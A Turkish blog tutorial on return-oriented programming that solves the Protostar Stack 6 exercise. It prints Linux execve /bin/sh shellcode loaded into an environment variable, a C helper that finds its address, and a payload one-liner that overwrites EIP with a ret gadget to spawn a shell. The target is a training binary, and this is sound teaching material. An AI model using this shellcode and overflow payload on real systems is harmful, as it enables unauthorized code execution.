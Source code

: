 ```yaml
---
layout: post
title:  "Return Oriented Programming (ROP) - 2"
author: "Alp Eren Işık"
date:   2020-03-22
categories: [exploit-development, binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `ROP Part 2`

Tekrardan merhaba. Yaklaşık 1 aydır birşeyler yazmıyordum ve liste birazcık kabarmaya başladı o yüzden tekrar bir `ROP` ile giriş yapayım istedim. Eğer önceki yazımı okuduysanız çok fazla teknik detaylara girmeden ve uygulama yapmadan kısaca konuyu özetlemeye çalışmıştım. Açıkcası bi uygulama yapmadığım için pek anlaşıldığını düşünmediğimden bir de uygulamalı `ROP` yazmaya karar verdim. Lafı çok uzattım sanırım hadi başlayalım.

# `Ön Hazırlık`

 `Protostar Stack 6` sorusu üzerinden gideceğim. Bende daha önceden yüklü olduğu için direk makine üzerinden çözümünü göstereceğim ancak siz isterseniz kodlarını alıp derleyip kendi cihazınız (tercihen linux) üzerinde de çalışabilirsiniz. 
 
 `NOT - 1 :` Hangi korumaların açık/kapalı olduğuna dikkat edin. `NX` koruması dışında diğer korumaların açık olmasına gerek yok. Eğer açık olursa exploiti diğer korumaları da atlatacak şekilde geliştirmeniz gerekecek.

 `NOT - 2 :` İlerleyen zamanlarda konular oturdukça tüm korumalar aktifken neler yapabiliriz üzerine de birşeyler düşünüyorum ama şimdilik teker teker gitmekte fayda var. 

 # `GO RUN`

Senaryo şu şekilde. Elimizde bir `ELF` dosya var ve bu programda `NX` koruması aktif. Yani stack içerisine shellcode yükleyemeyeceğiz. Hemen `system` komutu çalıştırabilir miyiz diye bakıyoruz ancak yazılımcının daha önce dili yanmış olacak ki bu komutun kullanılmasını kısıtlamış. Yani `ret2libc` denememiz büyük ihtimalle başarısız olacak. Hızlıca bi araştırma yapıyoruz ve imdadımıza `ROP` yani `Return Oriented Programming` saldırısının yetiştiğini görüyoruz. (Bunun ne olduğunu bilmeyen varsa hızlıca [şuraya](https://alp.run/2020/02/20/ROP_nedir.html) bi göz atsın derim.)

İlk önce sevgili `objdump` ile programımız içerisinde herhangi bir `ret` yani return işlemi yapan bir adres var mı buna bakıyoruz.


![objdump](/static/img/posts/ROP-2/0.PNG)


Gördüğünüz gibi karşımıza birkaç seçenek geldi. Bunları kenara not edip devam edelim. İlerde işimize yarayacaklar.


Şimdi sırada shellcode'umuzu hazırlamaya geldi. Stack içerisinde çalıştıramıyacaksak nerde çalıştırcaz biz bu arkadaşı ? sorusundan bizi kurtaracak olan tabi ki ortam değişkenleri yani `environment variables` olacak. 


Aşağıdaki şekilde shellimizi ortam değişkeni olarak tanımlıyoruz.


        export SHELL=$(python -c "print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')


![ortam-degiskeni](/static/img/posts/ROP-2/1.PNG)


Tanımladıktan sonra bunun adresini öğrenmemiz lazım ki kullanalım.

        #include <stdio.h>
        #include <stdlib.h>

        int main(int argc, char *argv[]) {
            char* ptr = getenv("SHELL");
            printf("%p\n", ptr);
        }


![shellcode-adres](/static/img/posts/ROP-2/2.PNG)


Evet sanırım gerekli hazırlıkları yaptık. Bundan sonra yapacağımız şey programın kaç karakterden sonra `eip` registerı üzerine yazdığını bulmak olacak. Bu kısımları çokça anlattığım için tekrar anlatmayacağım. Ben `80` olarak buldum.


Artık yapbozun parçalarını bir araya getirebiliriz. Yapacağımız şey aslında çokda yabancı olmadığımız birşey. `EIP` registerının üzerine programın içerisinde `ret` komutunu çalıştıran bir adresi verip daha sonra da bu komuta döneceği yerin bizim `SHELL` adresimiz olması gerektiğini söyleyeceğiz.


Böylelikle stack içerisine shellcode yazmadan shellcode çalıştırıp komut satırına erişim sağlayacağız.


Hadi deneyelim...


    (python -c "print 'A' * 80 + '\x5f\x83\x04\x08\xa5\xf9\xff\xbf'"; cat) | ./stack6


![shellcode-adres](/static/img/posts/ROP-2/3.PNG)


Ve bingo ! Shellimizi aldık. 